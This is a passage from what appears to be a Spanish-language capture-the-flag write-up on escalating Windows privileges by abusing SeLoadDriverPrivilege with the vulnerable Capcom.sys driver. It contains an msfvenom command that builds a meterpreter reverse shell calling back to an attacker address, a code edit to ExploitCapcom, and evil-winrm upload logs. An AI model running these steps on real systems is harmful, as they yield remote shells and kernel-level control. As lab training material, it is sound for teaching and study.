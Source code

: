 Revisando acerca del privilegio `SeLoadDriverPrivilege` encontramos el siguiente [artículo](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/) que nos dice cómo abusar de este privilegio para escalar privilegios.

Antes de seguir el paso a paso del artículo anterior para escalar privilegios, vamos a crear un payload que contiene el código de la shell que vamos a cargar en la máquina de la víctima.

```
┌─[root@parrot]─[/home/nicolasmira101]
└──╼ #msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.26 LPORT=4444 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
```

Ahora sí, vamos a seguir el tutorial del artículo para abusar del privilegio `SeLoadDriverPrivilege` y lo primero que debemos hacer es descargar el siguiente archivo [eoploaddriver.cpp](https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp) , compilarlo y generar un ejecutable.

 Luego, debemos descargar el siguiente proyecto [ExploitCapcom](https://github.com/tandasat/ExploitCapcom/tree/master/ExploitCapcom/ExploitCapcom) que se encuentra desarrollo en Visual Studio. Para que no genere problemas al compilar y generar el ejecutable, recomiendo utilizar [Visual Studio 2019 Community](https://visualstudio.microsoft.com/vs/community/) 

Del archivo `ExploitCapcom.cpp` debemos cambiar la ubicación del comando de la línea 292 por la dirección donde hayamos el payload que creamos anteriormente con `msfvenom`.

```c++
TCHAR CommandLine[] = TEXT("C:\\Users\\svc-print\\Documents\\shell.exe"); 
```

Una vez cambiemos la la línea 292 del archivo `ExploitCapcom.cpp` debemos compilar y generar un ejecutable.

Finalmente, debemos descargar el siguiente archivo [Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) que contiene la configuración de este controlador de dispositivo.

Ahora, vamos a cargar, con evil-winrm, el ejecutable generar del archivo eoploaddriver.cpp, del ExploitCapcom, la shell creada con msfvenom y el archivo capcom.sys.

```
*Evil-WinRM* PS C:\Users\svc-print\Documents> upload loaddriver.exe
Info: Uploading loaddriver.exe to C:\Users\svc-print\Documents\loaddriver.exe         
Data: 15700 bytes of 15700 bytes copied             
Info: Upload successful!                                                             

*Evil-WinRM* PS C:\Users\svc-print\Documents> upload exploitcapcom.exe
Info: Uploading exploitcapcom.exe to C:\Users\svc-print\Documents\exploitcapcom.exe
Data: 18650 bytes of 18650 bytes copied             
Info: Upload successful!     

*Evil-WinRM* PS C:\Users\svc-print\Documents> upload Capcom.sys
Info: Uploading Capcom.sys to C:\Users\svc-print\Documents\Capcom.sys
Data: 14100 bytes of 14100 bytes copied
Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-print\Documents> upload shell.exe
Info: Uploading shell.exe to C:\Users\svc-print\Documents\shell.exe
Data: 9556 bytes of 9556 bytes copied
Info: Upload successful!
```
